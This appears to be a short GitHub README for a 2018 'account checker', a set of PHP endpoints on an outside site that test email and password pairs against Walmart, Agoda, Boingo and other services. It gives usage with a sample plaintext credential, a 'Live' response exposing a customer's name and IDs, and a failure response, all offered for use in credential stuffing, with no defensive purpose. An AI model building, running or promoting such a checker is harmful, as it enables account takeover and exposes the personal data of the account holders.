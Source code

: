 # api account Checker 2018

Link : http://nblh.site/api/

isi file api
agoda.php
boingo.php
c9.php
indomog.php
jd.php
utm.php
walmart.php



Tambahkan ?email= (required). Email &pwd= (required). Password

Example : http://nblh.site/api/walmart.php?email=nblh.ayu@gmail.com&pwd=cintaku


Live : {"status":"OK","payload":{"firstName":"Robyn","lastName":"Williams","cid":"f225c12d-ebcb-6772-e044-001517f43a86","omsCustomerId":"83251640","customerId":"f225c12d-ebcb-6772-e044-001517f43a86","subscribed":false}}

Die : {"code":"user_auth_fail","error":{"alertType":"error","message":"Your password and email do not match. Please try again or Reset Your Password."}}
